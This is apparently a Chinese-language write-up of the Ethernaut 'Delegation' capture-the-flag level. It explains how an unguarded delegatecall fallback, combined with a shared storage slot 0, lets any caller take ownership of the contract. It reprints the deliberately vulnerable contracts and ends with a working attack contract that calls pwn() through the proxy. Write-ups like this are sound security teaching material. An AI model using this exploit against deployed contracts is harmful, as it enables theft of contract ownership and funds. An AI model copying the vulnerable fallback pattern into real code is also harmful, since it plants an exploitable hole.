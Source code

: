 # 6. Delegate

### 原题
```
这一关的目标是申明你对你创建实例的所有权.
```
```solidity
  // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```
### 分析
窃取所有权的又来咯。这个题目有点意思，这个里面的逻辑有点UUPS等代理架构的味道。
我们来分析下。Delegate合约的公开方法pwn可以修改owner，如果是直接调用Delegate.pwn()，修改的是Delegate的owner。但是要求我们修改Delegation的所有权，我们看可以利用的只有fallback()。
fallback的作用，什么时候触发，我假设大家都知道了。
我在调用Delegation上不存在的函数的时候，就可以直接执行fallback了。
再来看看里面的逻辑，执行了委托代理delegatecall，执行权交到了Delegate合约。那就意味着我可以通过代理去调用Delegate的pwn方法了。
但是怎么来修改Delegation的owner呢？delegatecall有个很大的特性，虽然调用了目标合约的方法，但是方法里修改的状态变量都会在委托方的存储槽去查找（不是按照变量名称去查找，而是依照存储槽的编码，EVM里只认编号）。
也就是说，只要代理合约和目标合约定义的状态变量顺序一致，那么委托执行的方法里面修改的状态变量都是修改的代理合约上的同样编号的存储槽。我们可以看到两个合约上的owner的定义都在第一个，也就是都是slot0的存储槽。这样委托执行的pwn方法，其实修改的是Delegation的owner。
这个有点绕吧，但是正是有这样的机制，才让我们可以使用UUPS或者透明代理架构，可以达到合约升级的目的。
不绕了，我自己也快被绕进去：），还是看看攻击代码吧
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface  IDelegation {
    function pwn() external ;
    function owner() external returns (address);
}

contract DelegationAttack {
    IDelegation delegation;

    constructor( address _delegation) {
      delegation = IDelegation(_delegation);
    }

    function attack() public {
      // 这里就是逼迫对方执行fallback函数(存在的话)，
      // 利用委托代理机制，达到攻击目的
      // “pwn()”是通过msg.data传送
      delegation.pwn();
    }

    function getOwner() public returns (address) {
       return  delegation.owner();
    }
}
```